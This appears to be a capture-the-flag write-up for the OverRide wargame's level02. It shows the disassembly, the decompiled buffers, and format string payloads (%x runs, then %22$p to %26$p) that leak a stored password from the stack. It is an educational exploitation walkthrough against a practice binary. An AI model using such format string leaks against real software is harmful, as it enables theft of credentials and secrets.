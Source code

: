# Analysis and Exploitation of the Program

This program asks for two inputs: a username and a password. These inputs are processed using `fgets` and are stored in memory buffers. At the end of execution, the username buffer is directly passed as a formatting argument to `printf`. This opens the door to a **format string exploit**.

When disassembling the `main` function in GDB, we observe some interesting details:

```
0x000000000040082c <+24>: lea    -0x70(%rbp),%rdx  
0x0000000000400849 <+53>: lea    -0xa0(%rbp),%rdx  
0x0000000000400869 <+85>: lea    -0x110(%rbp),%rdx 
```

These three `LEA` (Load Effective Address) instructions calculate memory addresses and load them into registers. They correspond to the following buffers in the source code:

```c
void var_78;
*__builtin_memset(&var_78, 0, 0x60) = 0;  // User buffer (username)
void var_a8;
*__builtin_memset(&var_a8, 0, 0x28) = 0;  // Password buffer (actual password)
void var_118;
*__builtin_memset(&var_118, 0, 0x60) = 0; // Buffer for entered password
```

Note that:
- **0x70 = 112**, the buffer for the username.
- **0xa0 = 160**, the buffer for the actual password.
- **0x110 = 272**, the buffer for the entered password.

---

## Step 1: Finding the Offset

To begin, we test specific strings to understand how our input interacts with memory and to identify where our input (`AAAA`) appears in the stack.

For example:

```bash
level02@OverRide:~$ ./level02 
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: AAAA %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x
--[ Password: *****************************************
AAAA ffffe3d0 0 78 2a2a2a2a 2a2a2a2a ffffe5c8 f7ff9a08 78252078 25207825 20782520 78252078 25207825 20782520 78252078 25207825 20782520 78252078 25207825 20782520 252078 0 34376848 61733951 574e6758 6e475873 664b394d 0 41414141 25207825 20782520 78252078  does not have access!
```

In this output, `0x41414141` corresponds to the ASCII values of `AAAA`, indicating that our buffer is located at **offset 28** on the stack.

---

## Step 2: Locating the Password Buffer

Between the username buffer and the actual password buffer, there is a gap of 160 (0xa0) - 112 (0x70) = 48 bytes

Since `printf` processes the stack in **blocks of 8 bytes** (the size of a pointer in x86_64 architecture), 48 / 8 = 6 octets

Therefore, we need to adjust our reading offset from `28` down by `6`, which gives us: 28 - 6 = 22

The password buffer starts at **offset 22** on the stack.

---

## Step 3: Reading the Password Content

To read the 5 blocks that make up the password, we use a sequence of offsets in our format string:

```bash
level02@OverRide:~$ ./level02 
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: %22$p %23$p %24$p %25$p %26$p
--[ Password: 
*****************************************
0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d does not have access!
level02@OverRide:~$ 
```

Running the program with this format string gives us the following output:

```
0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d does not have access!
```

These hexadecimal values represent the 5 blocks of the password stored in memory.

By translate them into ASCII and reverse themselves (little endians implies) we got the flag